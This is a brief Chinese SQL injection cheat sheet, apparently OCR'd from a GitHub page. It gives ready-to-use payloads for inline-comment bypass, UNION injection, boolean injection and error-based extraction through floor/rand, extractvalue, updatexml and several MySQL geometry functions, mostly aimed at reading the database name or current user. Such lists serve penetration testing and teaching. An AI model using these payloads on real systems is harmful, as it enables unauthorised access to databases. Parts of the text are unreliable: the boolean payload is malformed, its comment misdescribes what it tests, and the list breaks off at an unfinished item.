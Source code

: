 内联注释：

```
/*！...*/
```

**union注入**

```
id =-1 union select 1,2,3   /*获取字段*/
```

**Boolean注入**

```
id=1' substr(database(),1,1)='t'--+     /*判断数据名长度*/
```

**报错注入**

1 floor()和rand()

```
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a       /*利用错误信息得到当前数据库名*/
```

2 extractvalue()

```
id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```

3 updatexml()

```
id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
```

4 geometrycollection()

```
id=1 and geometrycollection((select * from(select * from(select user())a)b))
```

5 multipoint()

```
id=1 and multipoint((select * from(select * from(select user())a)b))
```

6 polygon()

```
id=1 and polygon((select * from(select * from(select user())a)b))
```

7 multipolygon()

```
id=1 and multipolygon((select * from(select * from(select user())a)b))
```

8 linestring()
